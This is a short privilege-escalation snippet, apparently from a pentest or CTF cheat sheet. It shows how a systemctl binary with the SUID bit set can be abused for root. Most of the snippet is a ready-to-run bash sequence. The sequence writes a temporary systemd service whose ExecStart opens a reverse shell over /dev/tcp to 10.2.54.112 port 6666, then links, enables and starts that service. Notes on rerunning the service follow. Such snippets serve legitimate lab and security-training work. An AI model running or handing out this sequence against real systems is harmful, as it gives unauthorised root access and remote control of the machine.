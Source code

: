 
If we have a `Systemctl` command with enabled SUID bit we can exploit it to get a root shell using the following command:

```bash
TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/bash -c "bash -i >& /dev/tcp/10.2.54.112/6666 0>&1"
[Install]
WantedBy=multi-user.target' > $TF
#then we can use either these commands to start the service
systemctl link $TF
systemctl enable --now $TF
# or these
systemctl enable $TF
systemctl start <filename without path)>
```

**Important Note: if we want to run the service once again, we can use the following command:**

```bash
echo $TF #to get the file name and path, then we run the file but without the path
systemctl start <filename without path)>
```
